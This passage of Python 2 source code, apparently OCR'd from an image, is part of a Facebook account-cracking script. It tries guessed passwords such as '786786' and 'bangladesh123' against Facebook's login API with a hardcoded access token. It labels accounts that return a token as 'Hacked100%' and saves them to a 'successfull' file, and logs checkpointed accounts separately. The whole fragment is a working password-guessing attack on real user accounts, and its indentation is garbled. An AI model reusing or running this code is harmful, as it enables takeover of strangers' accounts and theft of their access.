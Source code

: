 				oks.append(c+user+pass1)

			else:

				if 'www.facebook.com' in q['error_msg']:

					print '\033[1;96m[Saimon-Checkpoint] ' + k + c + user + '  》  ' + pass1+'\n'

					cps = open('save/checkpoint.txt', 'a')

					cps.write(k+c+user+'-•◈•-'+pass1+'\n')

					cps.close()

					cpb.append(c+user+pass1)

 				else:

 				    pass2="786786"

 				    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

 				    q = json.load(data)

 				    if 'access_token' in q:

 				        print '\x1b[1;92m{Hacked100%💉}  ' + k + c + user + '  》  ' + pass2+'\n'+"\n"

 				        okb = open('save/successfull.txt', 'a')

 				        okb.write(k+c+user+'-•◈•-'+pass2+'\n')

 				        okb.close()

 				        oks.append(c+user+pass2)

 				    else:

 				        if 'www.facebook.com' in q['error_msg']:

 					        print '\033[1;96m[Checkpoint] ' + k + c + user + '  》  ' + pass2+'\n'

 					        cps = open('save/checkpoint.txt', 'a')

 					        cps.write(k+c+user+'-•◈•-'+pass2+'\n')

 					        cps.close()

 					        cpb.append(c+user+pass2)

                                        else:

 				            pass3="bangladesh123"

 				            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

 				            q = json.load(data)

 				            if 'access_token' in q:

 				                print '\x1b[1;92m{Hacked100%💉}  ' + k + c + user + '  》  ' + pass3+'\n'+"\n"
